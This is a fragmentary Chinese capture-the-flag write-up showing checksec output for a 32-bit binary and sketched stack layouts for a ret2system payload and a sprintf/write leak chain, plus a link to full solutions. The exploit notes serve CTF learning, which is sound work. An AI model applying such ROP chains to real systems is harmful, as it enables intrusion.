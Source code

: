 ```python
    p.interactive()
     
```





## 签退



    Arch:     i386-32-little
    NX:       NX enabled










+ aaaaaaaa
+ return addr of gets = system
+ xxx
+ addr of binsh





https://blog.csdn.net/m0_46483584/article/details/110259127[全部题解]



sprintf(v5,"%s\n",s)  write(1,v5,9uLL)

+ 40+4 A
+ &sprintf@plt
+ pop3ret
+ &v5
+ ""
+ s
+ &write@plt
+ 1
+ v5
+ 9uLL

















